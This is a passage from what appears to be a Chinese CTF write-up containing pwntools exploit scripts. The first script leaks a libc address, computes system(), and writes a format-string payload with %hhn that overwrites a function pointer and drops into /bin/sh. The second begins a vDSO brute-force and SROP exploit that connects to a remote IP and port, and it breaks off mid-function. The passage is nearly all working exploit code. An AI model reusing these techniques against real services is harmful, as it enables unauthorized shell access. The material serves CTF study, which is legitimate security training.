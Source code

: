 ```
    ru('s')
    addr = u32(leak(0x8049974)[:4])
    info("leak = " + hex(addr))
    libc = addr - 0x49020
    system = libc + 0x3a940
    info("system = " + hex(system))
    s = p32(system)
    fmtstr = ''
    start = 0
    for i in xrange(len(s)-1):
        if ord(s[i]) &gt;= start:
            pad = ord(s[i]) - start
        else:
            pad = ord(s[i]) - start + 256
        fmtstr += '%' + '{}'.format(pad) + 'c' + '%' + '{}'.format(16+i) + '$hhn'
        start = ord(s[i])
    print len(fmtstr)
    fmtstr = fmtstr.ljust(36, 'A')
    fmtstr += p32(0x8049974)
    fmtstr += p32(0x8049975)
    fmtstr += p32(0x8049976)
    sl(fmtstr)
    sl('/bin/sh;')
    io.interactive()
    return
if __name__ == '__main__':
    pwn()
Pwn 300 - 233
爆破vDSO地址+SROP
脚本：
#!/usr/bin/env python2
# -*- coding:utf-8 -*-
from pwn import *
from ctypes import *
import os, sys
import random
import time
# switches
DEBUG = 1
LOCAL = 0
VERBOSE = 1
io = None
context(arch='i386')
# modify this
def makeio():
    global io
    if LOCAL:
        io = process('233')
    else:
        io = remote('106.14.22.20', 23743)
    return io
if VERBOSE: context(log_level='debug')
# define symbols and offsets here
# simplified r/s function
def ru(delim):
    return io.recvuntil(delim, timeout=4)
def rn(count):
    return io.recvn(count)
def ra(count):      # recv all
    buf = ''
    while count:
        tmp = io.recvn(count)
        buf += tmp
```